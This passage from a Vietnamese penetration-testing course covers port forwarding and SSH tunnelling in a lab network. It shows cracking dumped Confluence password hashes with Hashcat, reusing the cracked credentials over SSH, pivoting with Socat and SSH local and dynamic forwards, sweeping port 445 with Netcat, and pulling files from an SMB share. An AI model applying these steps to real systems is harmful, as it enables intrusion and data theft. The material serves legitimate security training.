 1212420 | hr_admin       | hr_admin        | T      | 2022-08-18 18:39:04.59  | 2022-08-18 18:39:04.59  | HR         | hr               | Admin         | admin           | HR Admin               | hr admin               | hr_admin@industries.internal       | hr_admin@industries.internal       | 2f3cc06a-7b08-467e-9891-aaaaeffe56ea |       327681 | {PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV
 1441793 | rdp_admin      | rdp_admin       | T      | 2022-08-20 20:46:03.325 | 2022-08-20 20:46:03.325 | RDP        | rdp              | Admin         | admin           | RDP Admin              | rdp admin              | rdp_admin@industries.internal      | rdp_admin@industries.internal      | e9a9e0f5-42a2-433a-91c1-73c5f4cc42e3 |       327681 | {PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34
(6 rows)

(END)
```

                               *Listing 12 - Nội dung bảng cwd_user trong database confluence.*

Chúng ta nhận được nhiều dòng thông tin người dùng. Mỗi dòng chứa dữ liệu cho một người dùng Confluence, bao gồm password hash của họ. Chúng ta sẽ dùng Hashcat để thử crack các hash này.

Hashcat mode number cho hash Atlassian (PBKDF2-HMAC-SHA1) là 12001, nên chúng ta có thể truyền giá trị này cho cờ -m mode. Sau khi copy các hash vào một file tên hashes.txt, chúng ta sẽ truyền file này như positional argument đầu tiên. Sau đó chúng ta có thể truyền danh sách mật khẩu fastrack.txt được tích hợp sẵn trong Kali như positional argument cuối cùng.

```
kali@kali:~$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt 
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

...

{PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34:P@ssw0rd!
{PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0:sqlpass123
{PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV:Welcome1234
...
```

     *Listing 13 - Hashcat đã crack các hash của tài khoản database_admin, hr_admin và rdp_admin.*

Có vẻ như chính sách mật khẩu của instance Confluence này không mạnh. Chỉ sau vài phút cracking, Hashcat đã trả về mật khẩu cho các user database_admin, hr_admin và rdp_admin.

Chúng ta có thể nghi ngờ rằng các mật khẩu này được tái sử dụng ở những nơi khác trong mạng. Sau khi enumeration thêm một chút trong mạng nội bộ, chúng ta sẽ phát hiện PGDATABASE01 cũng đang chạy một SSH server. Hãy thử các thông tin xác thực này với SSH server đó. Với kỹ năng port forwarding mới, chúng ta có thể tạo một port forward trên CONFLUENCE01 cho phép chúng ta SSH trực tiếp từ máy Kali đến PGDATABASE01.

Trước hết, chúng ta cần kill tiến trình Socat ban đầu đang lắng nghe trên cổng TCP 2345. Sau đó chúng ta sẽ tạo một port forward mới bằng Socat, lắng nghe trên cổng TCP 2222 và chuyển tiếp đến cổng TCP 22 trên PGDATABASE01.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
</bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 

```

    *Listing 14 - Tạo một port forward mới bằng Socat để truy cập dịch vụ SSH trên PGDATABASE01.*

Với port forward Socat mới được thiết lập, cấu hình mạng của chúng ta sẽ giống như sơ đồ sau:


*Hình 4: Dùng Socat để mở một port forward từ CONFLUENCE01 đến SSH server trên PGDATABASE01*

Chỉ có một vài khác biệt rất nhỏ so với cấu hình mạng trước đó. Thay vì lắng nghe trên 2345, chúng ta lắng nghe trên 2222. Thay vì chuyển tiếp đến cổng TCP 5432 trên PGDATABASE01, chúng ta chuyển tiếp đến cổng TCP 22 trên PGDATABASE01.

Sau đó, chúng ta sẽ dùng SSH client để kết nối đến cổng 2222 trên CONFLUENCE01, như thể chúng ta đang kết nối trực tiếp đến cổng 22 trên PGDATABASE01. Chúng ta có thể dùng user database_admin và mật khẩu mà chúng ta vừa crack bằng Hashcat.

```
kali@kali:~$ ssh database_admin@192.168.50.63 -p2222
The authenticity of host '[192.168.50.63]:2222 ([192.168.50.63]:2222)' can't be established.
ED25519 key fingerprint is SHA256:3TRC1ZwtlQexLTS04hV3ZMbFn30lYFuQVQHjUqlYzJo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.50.63]:2222' (ED25519) to the list of known hosts.
database_admin@192.168.50.63's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 11:43:07 AM UTC

  System load:  0.1               Processes:               241
  Usage of /:   59.3% of 7.77GB   Users logged in:         1
  Memory usage: 16%               IPv4 address for ens192: 10.4.50.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.50.215

0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

database_admin@pgdatabase01:~$
```

*Listing 15 - Kết nối đến SSH server trên PGDATABASE01, thông qua port forward trên CONFLUENCE01.*

Thành công! Thông tin xác thực của database_admin đã bị tái sử dụng ở đây. Chúng ta đã kết nối được đến SSH server trên PGDATABASE01 bằng thông tin xác thực database_admin mà chúng ta tìm thấy trong cơ sở dữ liệu PostgreSQL thông qua port forward mà chúng ta thiết lập trên CONFLUENCE01 với Socat.

Trong Learning Unit này, chúng ta đã tạo một số port forward đơn giản bằng Socat. Những port forward này cho phép chúng ta đi sâu hơn vào bên trong một mạng bằng cách tận dụng quyền truy cập hiện có vào một host đã bị compromise.

Cũng cần lưu ý rằng Socat không phải là cách duy nhất để tạo port forward trên các host *NIX. Có một số lựa chọn thay thế đáng chú ý:

rinetd là một lựa chọn chạy dưới dạng daemon. Điều này khiến nó trở thành một giải pháp tốt hơn cho các cấu hình port forwarding dài hạn, nhưng hơi cồng kềnh đối với các giải pháp port forwarding tạm thời.

Chúng ta có thể kết hợp Netcat và một FIFO named pipe file để tạo một port forward.

Nếu có quyền root, chúng ta có thể dùng iptables để tạo port forward. Cấu hình iptables port forwarding cụ thể cho một host sẽ phụ thuộc vào cấu hình hiện có. Để có thể forward gói tin trong Linux cũng cần bật forwarding trên interface mà chúng ta muốn forward bằng cách ghi “1” vào `/proc/sys/net/ipv4/conf/[interface]/forwarding` (nếu nó chưa được cấu hình để cho phép).

---

# 3. SSH Tunnelling

---

**Learning Unit** này bao gồm các **Learning Objectives** sau:

- Học các nền tảng cơ bản của SSH tunneling
- Sử dụng các phương pháp SSH local, dynamic, remote, và remote dynamic port forwarding
- Hiểu ưu và nhược điểm của việc sử dụng sshuttle

Ở mức khái quát, tunneling mô tả hành động đóng gói một loại luồng dữ liệu bên trong một loại luồng khác khi nó di chuyển qua mạng. Một số giao thức được gọi là tunneling protocols được thiết kế để thực hiện điều này. Secure Shell (SSH) là một ví dụ về các giao thức như vậy.

SSH ban đầu được phát triển để cung cấp cho quản trị viên khả năng đăng nhập từ xa vào máy chủ của họ thông qua một kết nối được mã hóa. Trước SSH, các công cụ như rsh, rlogin, và Telnet cung cấp các khả năng quản trị từ xa tương tự, nhưng thông qua một kết nối không được mã hóa.

Ở phía nền của mỗi kết nối SSH, toàn bộ lệnh shell, mật khẩu và dữ liệu được vận chuyển thông qua một đường hầm được mã hóa được xây dựng bằng giao thức SSH. Giao thức SSH về cơ bản là một giao thức tunneling, vì vậy có thể chuyển gần như bất kỳ loại dữ liệu nào qua một kết nối SSH. Vì lý do đó, khả năng tunneling được tích hợp sẵn trong hầu hết các công cụ SSH.

Một lợi ích lớn khác của SSH tunneling là việc sử dụng nó có thể dễ dàng hòa lẫn vào lưu lượng nền của các môi trường mạng. SSH thường được các quản trị viên mạng sử dụng cho các mục đích quản trị từ xa hợp pháp, và các cấu hình port forwarding linh hoạt trong những tình huống mạng bị hạn chế. Do đó, rất phổ biến khi thấy phần mềm SSH client đã được cài sẵn trên các host Linux, hoặc thậm chí có cả SSH server đang chạy ở đó. Cũng ngày càng phổ biến khi thấy phần mềm OpenSSH client được cài trên các host Windows. Trong các môi trường mạng không được giám sát chặt chẽ, lưu lượng SSH sẽ không có vẻ bất thường, và lưu lượng SSH sẽ trông rất giống lưu lượng quản trị thông thường. Nội dung của nó cũng không thể bị giám sát một cách dễ dàng.

Trong hầu hết tài liệu chính thức, việc tunneling dữ liệu qua một kết nối SSH được gọi là SSH port forwarding. Các phần mềm SSH khác nhau sẽ cung cấp các khả năng port forwarding hơi khác nhau. Chúng ta sẽ đề cập tất cả các kiểu SSH port forwarding phổ biến mà OpenSSH cung cấp trong Learning Unit này.

SSH port forwarding có thể là một công cụ cực kỳ mạnh mẽ trong bất kỳ tình huống mạng nào, nhưng nó cũng có thể là một lựa chọn rất hữu ích cho các kẻ tấn công hoạt động trong những môi trường mạng bị hạn chế.

---

## 3.1. SSH Local Port Forwarding

---

Hãy nhớ lại ví dụ port forwarding đầu tiên từ kịch bản Socat. Chúng ta đã cấu hình Socat để lắng nghe trên cổng TCP 2345 ở WAN interface của CONFLUENCE01. Các gói tin mà nó nhận được trên cổng đó được chuyển tiếp đến cổng TCP 5432 trên PGDATABASE01. Chúng ta đã dùng điều này để kết nối từ máy Kali, đi qua CONFLUENCE01, đến dịch vụ PostgreSQL trên PGDATABASE01. Điểm then chốt cần chú ý trong trường hợp này là việc lắng nghe và chuyển tiếp đều được thực hiện từ cùng một host (CONFLUENCE01).

SSH local port forwarding thêm một biến thể nhỏ vào điều này. Với SSH local port forwarding, các gói tin không được chuyển tiếp bởi cùng host đang lắng nghe gói tin. Thay vào đó, một kết nối SSH được thiết lập giữa hai host (một SSH client và một SSH server), một cổng lắng nghe được mở bởi SSH client, và toàn bộ các gói tin nhận được trên cổng này được tunneling qua kết nối SSH đến SSH server. Sau đó các gói tin được SSH server chuyển tiếp đến socket mà chúng ta chỉ định.

Khái niệm này có thể hơi trừu tượng ở thời điểm hiện tại. Chúng ta có thể hiểu nó tốt hơn bằng cách có thêm trải nghiệm thiết lập một local port forward.

Hãy xem lại kịch bản trước đó với một thay đổi nhỏ: Socat không còn khả dụng trên CONFLUENCE01. Chúng ta vẫn có tất cả các thông tin xác thực mà chúng ta đã crack trước đó từ cơ sở dữ liệu Confluence, và vẫn không có firewall nào ngăn chúng ta kết nối đến các cổng mà chúng ta bind trên CONFLUENCE01.

Với thông tin xác thực database_admin, chúng ta sẽ đăng nhập vào PGDATABASE01 và phát hiện rằng nó được gắn với một subnet nội bộ khác. Chúng ta tìm thấy một host có Server Message Block (SMB) server đang mở (trên cổng TCP 445) trong subnet đó. Chúng ta muốn có thể kết nối đến server đó và tải những gì chúng ta tìm thấy về máy Kali.

Trong loại kịch bản này, chúng ta sẽ lên kế hoạch tạo một SSH local port forward như một phần của kết nối SSH từ CONFLUENCE01 đến PGDATABASE01. Chúng ta sẽ bind một cổng lắng nghe trên WAN interface của CONFLUENCE01. Tất cả các gói tin gửi đến cổng đó sẽ được chuyển tiếp qua SSH tunnel. Sau đó PGDATABASE01 sẽ chuyển tiếp các gói tin này về phía cổng SMB trên host mới mà chúng ta đã tìm thấy.

Sơ đồ sau minh họa thiết lập của chúng ta:


*Hình 5: Ở mức khái quát, cách chúng ta muốn SSH local port forward hoạt động trong lab*

Trong sơ đồ này, chúng ta lắng nghe trên cổng TCP 4455 ở CONFLUENCE01. Các gói tin gửi đến cổng đó được phần mềm SSH client trên CONFLUENCE01 đẩy qua SSH tunnel. Ở đầu bên kia của tunnel, phần mềm SSH server trên PGDATABASE01 chuyển tiếp chúng đến cổng TCP 445 trên host mới được phát hiện.

Hãy thiết lập môi trường lab đúng như vậy. Một nhóm VM để theo dõi thực hành được cung cấp ở cuối phần này.

Như trước, chúng ta có thể lấy được một shell trên CONFLUENCE01 bằng cách dùng cURL one-liner exploit cho CVE-2022-26134. Chúng ta không còn có thể dùng Socat để tạo port forward cho phép chúng ta SSH từ máy Kali vào PGDATABASE01. Tuy nhiên, trong trường hợp này, chúng ta có thể SSH trực tiếp từ CONFLUENCE01 đến PGDATABASE01.

Tuy vậy, chúng ta chưa thể tạo SSH local port forward ngay lập tức. Khi thiết lập SSH local port forward, chúng ta cần biết chính xác địa chỉ IP và cổng mà chúng ta muốn chuyển tiếp các gói tin đến. Vì vậy trước khi tạo kết nối SSH có port forward, hãy SSH vào PGDATABASE01 để bắt đầu enumeration.

Trong shell của chúng ta trên CONFLUENCE01, chúng ta sẽ đảm bảo có chức năng TTY bằng cách sử dụng module pty của Python 3. Sau đó chúng ta có thể SSH vào PGDATABASE01 với thông tin xác thực database_admin.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'

confluence@confluence01:/opt/atlassian/confluence/bin$ ssh database_admin@10.4.50.215
<sian/confluence/bin$ ssh database_admin@10.4.50.215   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.50.215 (10.4.50.215)' can't be established.
ECDSA key fingerprint is SHA256:K9x2nuKxQIb/YJtyN/YmDBVQ8Kyky7tEqieIyt1ytH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.50.215's password: 

Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 03:01:09 PM UTC

  System load:  0.0               Processes:               241
  Usage of /:   59.4% of 7.77GB   Users logged in:         2
  Memory usage: 16%               IPv4 address for ens192: 10.4.50.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.50.215

0 updates can be applied immediately.

Last login: Thu Aug 18 11:43:08 2022 from 10.4.50.63
database_admin@pgdatabase01:~$
```

*Listing 16 - Cấp chức năng TTY cho reverse shell bằng pty của Python3, và đăng nhập vào PGDATABASE01 với user database_admin.*

Bây giờ chúng ta đã có một kết nối SSH đến PGDATABASE01 từ CONFLUENCE01, chúng ta có thể bắt đầu enumeration. Chúng ta sẽ chạy ip addr để truy vấn các network interface khả dụng.

```
database_admin@pgdatabase01:~$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:6b:9b brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.215/24 brd 10.4.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:6b9b/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:0d:b6 brd ff:ff:ff:ff:ff:ff
    inet 172.16.50.215/24 brd 172.16.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:db6/64 scope link 
       valid_lft forever preferred_lft forever
4: ens256: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 00:50:56:8a:f0:8e brd ff:ff:ff:ff:ff:ff
```

                           *Listing 17 - Enumeration các network interface trên PGDATABASE01.*

Sau đó chúng ta chạy ip route để phát hiện các subnet đã có sẵn trong routing table.

```
database_admin@pgdatabase01:~$ ip route
10.4.50.0/24 dev ens192 proto kernel scope link src 10.4.50.215 
10.4.50.0/24 via 10.4.50.254 dev ens192 proto static
172.16.50.0/24 dev ens224 proto kernel scope link src 172.16.50.215 
172.16.50.0/24 via 172.16.50.254 dev ens224 proto static
```

                           *Listing 18 - Enumeration các network route trên PGDATABASE01.*

Chúng ta phát hiện PGDATABASE01 được gắn với một subnet khác, lần này là dải 172.16.50.0/24. Chúng ta không thấy một port scanner được cài trên PGDATABASE01; tuy nhiên, chúng ta vẫn có thể làm reconnaissance ban đầu bằng các công cụ sẵn có.

Hãy viết một Bash for loop để sweep tìm các host có cổng 445 mở trên subnet /24. Chúng ta có thể dùng Netcat để tạo kết nối, truyền cờ -z để kiểm tra cổng đang lắng nghe mà không gửi dữ liệu, -v để verbose, và -w đặt là 1 để đảm bảo ngưỡng time-out thấp hơn.

```
database_admin@pgdatabase01:~$ for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
< (seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
nc: connect to 172.16.50.1 port 445 (tcp) timed out: Operation now in progress
...
nc: connect to 172.16.50.216 port 445 (tcp) failed: Connection refused
Connection to 172.16.50.217 445 port [tcp/microsoft-ds] succeeded!
nc: connect to 172.16.50.218 port 445 (tcp) timed out: Operation now in progress
...
database_admin@pgdatabase01:~$ 
```

           *Listing 19 - Dùng bash loop với Netcat để sweep cổng 445 trong subnet mới tìm thấy.*

Hầu hết các kết nối đều time out, gợi ý rằng không có gì ở đó. Ngược lại, chúng ta sẽ thấy PGDATABASE01 (tại 172.16.50.215) chủ động từ chối kết nối. Chúng ta cũng phát hiện có một host trong subnet có cổng TCP 445 mở: `172.16.50.217`!

Chúng ta muốn có thể enumeration dịch vụ SMB trên host này. Nếu tìm thấy bất cứ thứ gì, chúng ta muốn tải nó trực tiếp về máy Kali để kiểm tra. Có ít nhất hai cách để làm việc này.

Một cách là sử dụng các công cụ tích hợp mà chúng ta tìm thấy trên PGDATABASE01. Tuy nhiên, nếu chúng ta tìm thấy thứ gì đó, chúng ta sẽ phải tải nó về PGDATABASE01, rồi chuyển nó ngược lại CONFLUENCE01, rồi lại về máy Kali. Điều này sẽ tạo ra một quy trình chuyển dữ liệu thủ công khá tẻ nhạt.

Lựa chọn còn lại là dùng SSH local port forwarding. Chúng ta có thể tạo một kết nối SSH từ CONFLUENCE01 đến PGDATABASE01. Là một phần của kết nối đó, chúng ta có thể tạo một SSH local port forward. Cấu hình này sẽ lắng nghe trên cổng 4455 ở WAN interface của CONFLUENCE01, chuyển tiếp các gói qua SSH tunnel đi ra từ PGDATABASE01 và trực tiếp đến SMB share mà chúng ta tìm thấy. Sau đó chúng ta có thể kết nối đến cổng lắng nghe trên CONFLUENCE01 trực tiếp từ máy Kali.

*Trong kịch bản này, vẫn không có firewall nào ngăn chúng ta truy cập các cổng mà chúng ta bind trên WAN interface của CONFLUENCE01. Ở các phần sau, chúng ta sẽ dựng firewall lên, và dùng các kỹ thuật nâng cao hơn để vượt qua ranh giới này.*

Hiện tại, chúng ta nên kill kết nối SSH hiện tại đến PGDATABASE01. Sau đó chúng ta sẽ thiết lập một kết nối mới với các đối số mới để thiết lập SSH local port forward.

Một local port forward có thể được thiết lập bằng tùy chọn -L của OpenSSH, tùy chọn này nhận hai socket (theo định dạng IPADDRESS:PORT) được ngăn cách bằng dấu hai chấm như một đối số (ví dụ: IPADDRESS:PORT:IPADDRESS:PORT). Socket đầu tiên là listening socket sẽ được bind lên máy SSH client. Socket thứ hai là nơi chúng ta muốn chuyển tiếp các gói tin đến. Phần còn lại của lệnh SSH như bình thường - trỏ đến SSH server và user mà chúng ta muốn kết nối với.

Trong trường hợp này, chúng ta sẽ chỉ thị SSH lắng nghe trên tất cả interface ở cổng 4455 trên CONFLUENCE01 (0.0.0.0:4455), sau đó chuyển tiếp toàn bộ các gói tin (qua SSH tunnel đến PGDATABASE01) đến cổng 445 trên host mới tìm thấy (172.16.50.217:445).

*Chúng ta lắng nghe trên cổng 4455 trên CONFLUENCE01 vì chúng ta đang chạy dưới user confluence: chúng ta không có quyền để lắng nghe trên bất kỳ cổng nào dưới 1024.*

Hãy tạo kết nối SSH từ CONFLUENCE01 đến PGDATABASE01 bằng ssh, đăng nhập với user database_admin. Chúng ta sẽ truyền đối số local port forwarding mà chúng ta vừa ghép vào -L, và dùng -N để ngăn không cho một shell được mở ra.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
<0:4455:172.16.50.217:445 database_admin@10.4.50.215   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.50.215 (10.4.50.215)' can't be established.
ECDSA key fingerprint is SHA256:K9x2nuKxQIb/YJtyN/YmDBVQ8Kyky7tEqieIyt1ytH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.50.215's password: 
```

                                                   *Listing 20 - Chạy lệnh local port forward.*

Sau khi nhập mật khẩu, chúng ta không nhận được bất kỳ output nào. Khi chạy SSH với cờ -N, điều này là bình thường. Cờ -N ngăn SSH thực thi bất kỳ lệnh remote nào, nghĩa là chúng ta chỉ nhận output liên quan đến port forward.

Nếu kết nối SSH hoặc port forwarding thất bại vì lý do nào đó, và output chúng ta nhận được từ phiên SSH tiêu chuẩn không đủ để troubleshoot, chúng ta có thể truyền cờ -v cho ssh để nhận debug output.

Vì reverse shell từ CONFLUENCE01 hiện đang bị chiếm dụng bởi một phiên SSH đang mở, chúng ta cần bắt thêm một reverse shell khác từ CONFLUENCE01. Chúng ta có thể làm điều này bằng cách lắng nghe trên một cổng khác và chỉnh sửa payload CVE-2022-26134 để trả shell về cổng đó.

Khi có một reverse shell khác từ CONFLUENCE01, chúng ta có thể xác nhận rằng tiến trình ssh mà chúng ta vừa khởi chạy từ shell còn lại đang lắng nghe trên 4455 bằng ss.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ss -ntplu 
ss -ntplu
Netid  State   Recv-Q  Send-Q         Local Address:Port     Peer Address:Port  Process                                                                         
udp    UNCONN  0       0              127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN  0       128                  0.0.0.0:4455          0.0.0.0:*      users:(("ssh",pid=59288,fd=4))
tcp    LISTEN  0       4096           127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN  0       128                  0.0.0.0:22            0.0.0.0:*
tcp    LISTEN  0       128                     [::]:22               [::]:*
tcp    LISTEN  0       10                         *:8090                *:*      users:(("java",pid=1020,fd=44))
tcp    LISTEN  0       1024                       *:8091                *:*      users:(("java",pid=1311,fd=15))
tcp    LISTEN  0       1         [::ffff:127.0.0.1]:8000                *:*      users:(("java",pid=1020,fd=76))
```

             *Listing 21 - Cổng 4455 đang lắng nghe trên tất cả interface trên CONFLUENCE01.*

Đúng vậy - tuyệt! Kết nối đến cổng 4455 trên CONFLUENCE01 giờ sẽ giống như kết nối trực tiếp đến cổng 445 trên 172.16.50.217. Chúng ta có thể xem lại luồng kết nối trong sơ đồ sau.


*Hình 6: SSH local port forward đã được thiết lập, với lệnh đang chạy trên CONFLUENCE01*

Giờ chúng ta có thể tương tác với cổng 4455 trên CONFLUENCE01 từ máy Kali. Hãy bắt đầu bằng cách liệt kê các share khả dụng với tùy chọn -L của smbclient, truyền 4455 vào tùy chọn cổng tùy chỉnh -p, cùng với username cho tùy chọn -U và password cho tùy chọn --password. Chúng ta sẽ thử thông tin xác thực mà chúng ta đã crack cho user hr_admin từ cơ sở dữ liệu Confluence.

```
ali@kali:~$ smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.50.63 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```

   *Listing 22 - Liệt kê SMB shares thông qua SSH local port forward đang chạy trên CONFLUENCE01.*

Chúng ta tìm thấy một share tên là scripts, nhiều khả năng chúng ta có thể truy cập được. Hãy thử liệt kê những gì bên trong nó và tải về những gì chúng ta tìm thấy.

```
kali@kali:~$ smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Aug 18 22:21:24 2022
  ..                                 DR        0  Thu Aug 18 19:42:49 2022
  Provisioning.ps1                    A      387  Thu Aug 18 22:21:52 2022
  README.txt                          A      145  Thu Aug 18 22:22:40 2022

                5319935 blocks of size 4096. 152141 blocks available

smb: \> get Provisioning.ps1
getting file \Provisioning.ps1 of size 387 as Provisioning.ps1 (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)

smb: \> 
```

*Listing 23 - Liệt kê file trong share scripts, dùng smbclient qua SSH local port forward đang chạy trên CONFLUENCE01.*

Giờ chúng ta có thể kiểm tra file này trực tiếp trên máy Kali.

Trong phần này, bằng cách tạo một SSH local port forward, chúng ta đã có thể tải về một file được lưu trữ từ một share trên một host nằm sâu hơn bên trong mạng doanh nghiệp.

---

## 3.2. SSH Dynamic Port Forwarding

---

Chuyển tiếp cổng cục bộ (local port forwarding) có một hạn chế rất rõ ràng: **mỗi kết nối SSH chỉ có thể chuyển tiếp đến một socket duy nhất**. Điều này khiến việc sử dụng ở quy mô lớn trở nên khá phiền phức. May mắn thay, OpenSSH cũng cung cấp **chuyển tiếp cổng động (dynamic port forwarding)**. Với cơ chế này, từ **một cổng lắng nghe duy nhất trên SSH client**, các gói tin có thể được chuyển tiếp tới **bất kỳ socket nào mà máy SSH server có thể truy cập**.

SSH dynamic port forwarding hoạt động được là vì cổng lắng nghe mà SSH client tạo ra thực chất là **một cổng proxy SOCKS**. SOCKS là một giao thức proxy. Tương tự như dịch vụ bưu chính, một SOCKS server sẽ tiếp nhận các gói tin (có kèm header của giao thức SOCKS) và chuyển tiếp chúng đến đúng địa chỉ đích.

Đây là một cơ chế rất mạnh. Trong SSH dynamic port forwarding, các gói tin có thể được gửi tới **một cổng SOCKS duy nhất đang lắng nghe trên máy SSH client**. Các gói tin này sẽ được đẩy qua kết nối SSH, sau đó được chuyển tiếp đến **bất kỳ đâu mà máy SSH server có thể định tuyến tới**. Hạn chế duy nhất là các gói tin **phải được định dạng đúng theo giao thức SOCKS** - thường là do phần mềm client tương thích SOCKS đảm nhiệm. Trong một số trường hợp, phần mềm không hỗ trợ SOCKS theo mặc định. Chúng ta sẽ xử lý hạn chế này ở phần sau của mục này.

Hãy minh họa SSH dynamic port forwarding bằng sơ đồ mạng.


                                                  ***Hình 7: Thiết lập SSH dynamic port forward***

Bố cục của mô hình này rất giống với SSH local port forwarding. Chúng ta lắng nghe trên cổng TCP 9999 tại interface WAN của CONFLUENCE01. Các gói tin gửi đến cổng này (ở định dạng SOCKS) sẽ được đẩy qua SSH tunnel tới PGDATABASE01, sau đó được chuyển tiếp đến địa chỉ mà chúng được chỉ định.

Điều này có nghĩa là chúng ta vẫn có thể truy cập cổng SMB trên HRSHARES, **nhưng đồng thời cũng có thể truy cập bất kỳ cổng nào trên bất kỳ host nào mà PGDATABASE01 có thể truy cập**, chỉ thông qua **một cổng duy nhất**. Tuy nhiên, để tận dụng được sự linh hoạt này, chúng ta phải đảm bảo rằng phần mềm sử dụng có thể gửi gói tin đúng định dạng giao thức SOCKS.

Hãy mở rộng kịch bản trước đó. Ngoài việc kết nối đến cổng SMB trên HRSHARES, chúng ta còn muốn **thực hiện quét cổng (port scan) toàn diện** đối với HRSHARES.

Chúng ta có thể đảm bảo đang ở trong một TTY shell bằng cách sử dụng module `pty` của Python3. Sau đó, chúng ta tạo kết nối SSH tới PGDATABASE01 bằng tài khoản `database_admin` như trước. Trong OpenSSH, chuyển tiếp cổng động được tạo bằng tùy chọn `-D`. Tùy chọn này chỉ nhận một tham số là **địa chỉ IP và cổng để bind**. Trong trường hợp này, chúng ta muốn lắng nghe trên **tất cả các interface tại cổng 9999**. Chúng ta không cần chỉ định socket đích để chuyển tiếp. Đồng thời, ta sử dụng cờ `-N` để ngăn việc spawn một shell.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'

confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
<$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.50.215 (10.4.50.215)' can't be established.
ECDSA key fingerprint is SHA256:K9x2nuKxQIb/YJtyN/YmDBVQ8Kyky7tEqieIyt1ytH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.50.215's password:
```

Sau khi nhập mật khẩu, **không có output nào xuất hiện ngay**, tương tự như ví dụ trước.

